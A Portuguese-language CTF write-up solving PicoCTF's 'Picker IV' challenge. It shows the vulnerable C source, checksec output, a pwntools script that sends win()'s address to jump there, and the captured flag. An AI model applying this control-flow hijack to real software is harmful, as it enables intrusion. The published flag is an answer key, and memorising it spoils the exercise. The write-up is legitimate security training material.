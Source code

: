 # Picker IV
## Descrição do Desafio:
**Autor**: LT 'syreal' Jones \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/403?category=6&page=1) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Média \
**Descrição**:
> Can you figure out how this program works to get the flag?
## Passo a Passo da Solução:
### 1. Análise do arquivo fornecido
Este desafio facilita muito a vida, porque ele fornece o arquivo fonte junto com o binário ao invés de somente o binário. Analisando o arquivo fonte, podemos ver que existe uma função para imprimir a **flag**, e que a função principal chama uma função com o endereço do nosso *input*.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void print_segf_message(){
  printf("Segfault triggered! Exiting.\n");
  sleep(15);
  exit(SIGSEGV);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  unsigned int val;
  printf("Enter the address in hex to jump to, excluding '0x': ");
  scanf("%x", &val);
  printf("You input 0x%x\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

{% endcode %}

Agora que sabemos a provável forma de resolver esse desafio, devemos verificar se há alguma proteção que possa dificultar nossa vida:
```bash
checksec --file=picker-IV
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   76 Symbols        No    0               1               picker-IV
```
No caso, a única proteção que iria de fato dificultar nossa vida seria a `PIE`, porque com ela os endereços do binários seriam aleatórios todo vez que executássemos o arquivo, porém como a `PIE` está desabilitada o endereço será o mesmo para qualquer máquina que executar o binário.

### 2. Solução
Para a solução basta pegar o endereço da função `win` e passar ele no *input* omitindo o `0x`. Com o **pwntools** isso fica super simples.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./picker-IV")
p = remote("ip", porta)

win = elf.symbols["win"]

p.sendlineafter(b": ", hex(win)[2:])
print(p.recvall().decode())
```

{% endcode %}

### Flag
`picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
